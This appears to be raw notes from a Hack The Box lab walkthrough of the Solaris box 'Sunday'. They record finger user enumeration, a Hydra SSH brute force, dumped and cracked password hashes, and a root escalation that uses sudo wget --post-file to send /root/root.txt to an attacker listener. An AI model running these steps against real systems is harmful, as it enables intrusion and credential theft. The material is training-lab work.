

# Nmap 7.91 scan initiated Sun Jan 24 12:06:17 2021 as: nmap -v -sC -sV -Pn -oN nmap 10.10.10.76
Increasing send delay for 10.10.10.76 from 0 to 5 due to 11 out of 22 dropped probes since last increase.
Nmap scan report for 10.10.10.76
Host is up (0.098s latency).
Not shown: 972 closed ports
PORT      STATE    SERVICE        VERSION
79/tcp    open     tcpwrapped
|_finger: ERROR: Script execution failed (use -d to debug)
111/tcp   open     tcpwrapped
211/tcp   filtered 914c-g
711/tcp   filtered cisco-tdp
1033/tcp  filtered netinfo
1084/tcp  filtered ansoft-lm-2
1137/tcp  filtered trim
1145/tcp  filtered x9-icue
1494/tcp  filtered citrix-ica
1687/tcp  filtered nsjtp-ctrl
2009/tcp  filtered news
3221/tcp  filtered xnm-clear-text
3493/tcp  filtered nut
3766/tcp  filtered sitewatch-s
4567/tcp  filtered tram
5190/tcp  filtered aol
5730/tcp  filtered unieng
5962/tcp  filtered unknown
5987/tcp  filtered wbem-rmi
7435/tcp  filtered unknown
7625/tcp  filtered unknown
7938/tcp  filtered lgtomapper
9877/tcp  filtered x510
9968/tcp  filtered unknown
10616/tcp filtered unknown
20828/tcp filtered unknown
32773/tcp filtered sometimes-rpc9
55056/tcp filtered unknown

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 24 12:07:43 2021 -- 1 IP address (1 host up) scanned in 86.30 seconds

kali@kali:~/htb/boxes/sunday/10.10.10.76$ finger @10.10.10.76
No one logged on
https://pentestlab.blog/tag/finger/

nmap -p111 -v -sC -sV -Pn -oN nmap.rpc 10.10.10.76
Nmap scan report for 10.10.10.76
Host is up (0.10s latency).

PORT    STATE SERVICE VERSION
111/tcp open  rpcbind 2-4 (RPC #100000)

https://github.com/pentestmonkey/finger-user-enum

kali@kali:/opt/finger-user-enum$ ./finger-user-enum.pl -u root -t 10.10.10.76
Starting finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Worker Processes ......... 5
Target count ............. 1
Username count ........... 1
Target TCP port .......... 79
Query timeout ............ 5 secs
Relay Server ............. Not used

######## Scan started at Sun Jan 24 12:23:54 2021 #########
root@10.10.10.76: root     Super-User            pts/3        <Apr 24, 2018> sunday              ..
######## Scan completed at Sun Jan 24 12:23:55 2021 #########
1 results.

1 queries in 1 seconds (1.0 queries / sec)

kali@kali:/opt/finger-user-enum$ ./finger-user-enum.pl -U /usr/share/seclists/Usernames/top-usernames-shortlist.txt -t 10.10.10.76
Starting finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Worker Processes ......... 5
Usernames file ........... /usr/share/seclists/Usernames/top-usernames-shortlist.txt
Target count ............. 1
Username count ........... 17
Target TCP port .......... 79
Query timeout ............ 5 secs
Relay Server ............. Not used

######## Scan started at Sun Jan 24 12:24:31 2021 #########
admin@10.10.10.76: Login       Name               TTY         Idle    When    Where
adm      Admin                              < .  .  .  . >
lp       Line Printer Admin                 < .  .  .  . >
uucp     uucp Admin                         < .  .  .  . >
nuucp    uucp Admin                         < .  .  .  . >
dladm    Datalink Admin                     < .  .  .  . >
listen   Network Admin                      < .  .  .  . >

root@10.10.10.76: root     Super-User            pts/3        <Apr 24, 2018> sunday              

adm@10.10.10.76: adm      Admin                              < .  .  .  . >

mysql@10.10.10.76: mysql    MySQL Reserved UID                 < .  .  .  . >

user@10.10.10.76: Login       Name               TTY         Idle    When    Where
xvm      xVM User                           < .  .  .  . >
openldap OpenLDAP User                      < .  .  .  . >
nobody   NFS Anonymous Access               < .  .  .  . >
noaccess No Access User                     < .  .  .  . >
nobody4  SunOS 4.x NFS Anonym               < .  .  .  . >..
######## Scan completed at Sun Jan 24 12:24:35 2021 #########
5 results.

sunday nope

nmap -v -p- -sC -sV -Pn -oN nmap.full 10.10.10.76 --max-retries 1

PORT      STATE SERVICE VERSION
79/tcp    open  finger  Sun Solaris fingerd
|_finger: No one logged on\x0D
22022/tcp open  ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
57778/tcp open  rpcbind
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos

######## Scan started at Sun Jan 24 12:29:12 2021 #########
access@10.10.10.76: access No Access User                     < .  .  .  . >..nobody4  SunOS 4.x NFS Anonym               < .  .  .  . >..
admin@10.10.10.76: Login       Name               TTY         Idle    When    Where..adm      Admin                              < .  .  .  . >..lp       Line Printer Admin                 < .  .  .  . >..uucp     uucp Admin                         < .  .  .  . >..nuucp    uucp Admin                         < .  . >
anne marie@10.10.10.76: Login       Name               TTY         Idle    When    Where..anne                  ???..marie                 ???..
bin@10.10.10.76: bin             ???                         < .  .  .  . >..
dee dee@10.10.10.76: Login       Name               TTY         Idle    When    Where..dee                   ???..dee                   ???..
jo ann@10.10.10.76: Login       Name               TTY         Idle    When    Where..jo                    ???..ann                   ???..
la verne@10.10.10.76: Login       Name               TTY         Idle    When    Where..la                    ???..verne                 ???..
line@10.10.10.76: Login       Name               TTY         Idle    When    Where..lp       Line Printer Admin                 < .  .  .  . >..
message@10.10.10.76: Login       Name               TTY         Idle    When    Where..smmsp    SendMail Message Sub               < .  .  .  . >..
miof mela@10.10.10.76: Login       Name               TTY         Idle    When    Where..miof                  ???..mela                  ???..
root@10.10.10.76: root     Super-User            pts/3        <Apr 24, 2018> sunday              ..
sammy@10.10.10.76: sammy                 console      <Jul 31 17:59>..
sunny@10.10.10.76: sunny                 pts/3        <Apr 24, 2018> 10.10.14.4          ..
sys@10.10.10.76: sys             ???                         < .  .  .  . >..
zsa zsa@10.10.10.76: Login       Name               TTY         Idle    When    Where..zsa                   ???..zsa                   ???..
######## Scan completed at Sun Jan 24 13:02:12 2021 #########

root@10.10.10.76: root     Super-User            pts/3        <Apr 24, 2018> sunday          
sammy@10.10.10.76: sammy                 console      <Jul 31 17:59>..
sunny@10.10.10.76: sunny                 pts/3        <Apr 24, 2018> 10.10.14.4          ..

kali@kali:~/htb/boxes/sunday/10.10.10.76$ /usr/local/bin/hydra -v -L users.txt -P passwords.txt ssh://10.10.10.76:22022
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-24 22:36:33
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 2 tasks per 1 server, overall 2 tasks, 2 login tries (l:2/p:1), ~1 try per task
[DATA] attacking ssh://10.10.10.76:22022/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://sammy@10.10.10.76:22022
[INFO] Successful, password authentication is supported by ssh://10.10.10.76:22022
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
[STATUS] attack finished for 10.10.10.76 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-24 22:36:47

kali@kali:~/htb/boxes/sunday/10.10.10.76$ ssh sunny@10.10.10.76 -p 22022
Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1

ssh sunny@10.10.10.76 -p 22022 -oKexAlgorithms=+diffie-hellman-group1-sha1

id
uid=65535(sunny) gid=1(other) groups=1(other)

sunny@sunday:~$ uname -a
SunOS sunday 5.11 snv_111b i86pc i386 i86pc Solaris

sunny@sunday:~$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll

sunny@sunday:~$ ls -lah /root/troll
ls: cannot access /root/troll: Permission denied

sunny@sunday:~$ sudo /root/troll
testing
uid=0(root) gid=0(root)

sunny@sunday:~$ cat /backup/shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::

sunny@sunday:~$ cat /backup/agent22.backup 
cat: /backup/agent22.backup: Permission denied

7400 | sha256crypt $5$, SHA256 (Unix)                   | Operating System

$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!

User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget

sudo wget --post-file=/root/root.txt 10.10.14.9:8090

nc -lvnp 8090